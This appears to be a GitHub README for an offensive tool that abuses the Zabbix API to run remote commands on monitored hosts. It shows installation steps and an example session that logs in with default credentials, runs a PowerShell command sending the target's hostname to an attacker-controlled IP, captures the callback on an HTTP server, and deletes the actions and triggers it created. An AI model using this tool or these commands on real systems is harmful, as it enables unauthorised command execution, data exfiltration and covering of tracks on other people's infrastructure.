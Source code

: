 # ZabbixAPIAbuse
Abuse Zabbix API to obtain Remote Command Execution on hosts

## Getting Started

```
python3 -m pip install requests
git clone http://github.com/diefunction/ZabbixAPIAbuse.git
```

## Example
```
python3 ZabbixAPIAbuse.py
URL: http://localhost/zabbix/api_jsonrpc.php
CMD: powershell -c "Invoke-WebRequest -Uri http://192.168.1.100/$(hostname)"
Method [Default: action] (action / item): action
Username [Default: Admin]: Admin
Password [Default: zabbix]: zabbix
[0]: DESKTOP-XXXXXXX
[1]: DESKTOP-XXXXXXY
Host num: 0
[*] Waiting for execution ...
[*] Actions deleted
[*] Triggers deleted
```

```
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)
192.168.1.108 - - [11/May/2020 13:36:23] "GET /DESKTOP-XXXXXXX HTTP/1.1" 404 -
```


### About

HTB: https://www.hackthebox.eu/profile/47396 <br />
Twitter: @diefunction <br />
Discord: Diefunction#1337
